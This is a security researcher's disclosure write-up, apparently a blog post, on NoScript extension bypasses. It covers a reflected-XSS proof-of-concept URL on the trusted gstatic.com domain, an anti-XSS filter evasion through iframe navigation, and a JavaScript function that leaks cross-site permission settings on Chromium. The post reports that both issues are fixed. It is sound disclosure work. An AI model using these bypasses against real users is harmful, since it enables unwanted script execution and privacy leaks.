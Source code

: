 ```yaml
---
title: NoScript part 2
---
```


See <https://ndevtk.github.io/writeups/2022/09/01/noscript/> for context about what NoScript is.

# Bypass to run Javascript

This extension comes preinstalled with a list of trusted websites where javascript is allowed to run, this includes `gstatic.com` that Google treats as a sandbox domain. <https://github.com/hackademix/noscript/blob/cc0471fe52a069b73b20b5e4213f54e8699a3052/src/bg/Settings.js#L218>

While my favorite `gstatic.com` XSS endpoint was over `postMessage` it wont work for this since I can't run javascript to send a message luckily the Google Security Team provided me with the location of a URL reflected XSS 🙂

PoC: <https://www.gstatic.com/vr/ads/playground/metrics.html#assetUrl=https://tinyurl.com/2yrfxf5a>

Normally on Firefox this would have been prevented by NoScript's anti-XSS protection however by reusing the iframe source XSS sink as a way to navigate to the XSS page in the embed it would be considered same-origin initiated which is exempt from the filter.  
There's no XSS filter at all for Chromium, "please don't use Chromium-based browsers with privacy/security extensions, they'll always be inferior there because of Google's terrible WebExtensions API implementation and design choices".

This anti-XSS bypass was fixed in <https://github.com/hackademix/noscript/commit/10e2c40c1ca55ee7482705c47d2b3ec41aded4f7> but the sandbox domain is still marked as trusted for compatibility.

May also be other ways to bypass NoScript since there's no way of knowing if code running on <https://code.earthengine.google.com/> or a sandboxed ‘null’ origin iframe is safe.

...Ideally don't have any sandbox domains in your NoScript permissions or even better the least amount necessary, not the first time the default list has been vulnerable <https://thehackerblog.com/the-noscript-misnomer-why-should-i-trust-vjs-zendcdn-net/>


# Leaking the permissions of a cross-site URL

Yay XS-Leaks! (Mainly privacy concern)

```js
async function getPermissions(url) {
  const result = await fetch(
    'https://[ff00::]/nscl/chrome-extension://doojmbjmlfjjnbmnoijecmcbfeoakpjm/syncMessage?msg=' +
      encodeURIComponent(JSON.stringify({id: 'fetchChildPolicy', url: url}))
  );
  const body = await result.json();
  const chunk = JSON.parse(body.chunk);
  return chunk;
}
```

This was fixed in <https://github.com/hackademix/nscl/commit/c3fd029c9c08c472601dcff1fbc3c0edcaf98c27> and only worked on chromium based browsers.

# Some other interesting behaviors

- Tries to implement its own version of CORS <https://github.com/hackademix/nscl/blob/9f59d8d823cc58b2a9c751b4db7715658b68cc67/service/prefetchCSSResources.js#L59>
- Hooks service worker registration <https://github.com/hackademix/nscl/blob/9f59d8d823cc58b2a9c751b4db7715658b68cc67/service/patchWorkers.js#L61>
